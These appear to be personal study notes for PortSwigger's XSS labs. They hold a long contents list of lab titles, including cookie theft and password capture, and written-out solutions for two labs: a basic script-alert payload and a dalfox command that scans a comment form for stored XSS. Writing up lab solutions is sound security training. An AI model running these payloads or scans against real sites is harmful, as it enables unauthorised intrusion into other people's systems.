 
# XSS


## Table of Contents

- [[#Reflected XSS into HTML context with nothing encoded]]
- [[#Stored XSS into HTML context with nothing encoded]]
- [[#DOM XSS in document.write sink using source location.search]]
- [[#DOM XSS in document.write sink using source location.search inside a select element]]
- [[#DOM XSS in innerHTML sink using source location.search]]
- [[#DOM XSS in jQuery anchor href attribute sink using location.search source]]
- [[#DOM XSS in jQuery selector sink using a hashchange event]]
- [[#DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded]]
- [[#Reflected DOM XSS]]
- [[#Stored DOM XSS]]
- [[#Exploiting cross-site scripting to steal cookies]]
- [[#Exploiting cross-site scripting to capture passwords]]
- [[#Exploiting XSS to perform CSRF]]
- [[#Reflected XSS into HTML context with most tags and attributes blocked]]
- [[#Reflected XSS into HTML context with all tags blocked except custom ones]]
- [[#Reflected XSS with some SVG markup allowed]]
- [[#Reflected XSS into attribute with angle brackets HTML-encoded]]
- [[#Stored XSS into anchor href attribute with double quotes HTML-encoded]]
- [[#Reflected XSS in canonical link tag]]
- [[#Reflected XSS into a JavaScript string with single quote and backslash escaped]]
- [[#Reflected XSS into a JavaScript string with angle brackets HTML encoded]]
- [[#Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped]]
- [[#Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped]]
- [[#Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped]]
- [[#Reflected XSS protected by CSP, with dangling markup attack]]
- _**[[#Payloads]]**_

## Reflected XSS into HTML context with nothing encoded
Reference: https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

```ad-done
title: Solution
1. Copy and paste the following into the search box: 
~~~html
<script>alert(1)</script>
~~~
3. Click "Search".
```

## Stored XSS into HTML context with nothing encoded
Reference: https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded
```ad-hint
title: Quick Solution
Although this is an **extremely** easy lab to complete I also tried a tool called ``dalfox`` that is able to perform Store XSS assessments. The command I used is the following (on version 2.5.5):
~~~
dalfox sxss -X POST "<target_url>/post/comment" -d "csrf=<crsf_token>&postId=2&comment=thelicato&name=thelicato&email=the@lica.to&website=" -p "comment" --cookie="session=<session_cookie>" --trigger "<target_url>/post?postId=2" --request-method GET -w 1
~~~
The requests can also be proxied to Burp by adding ``--proxy <proxy_url>``
```
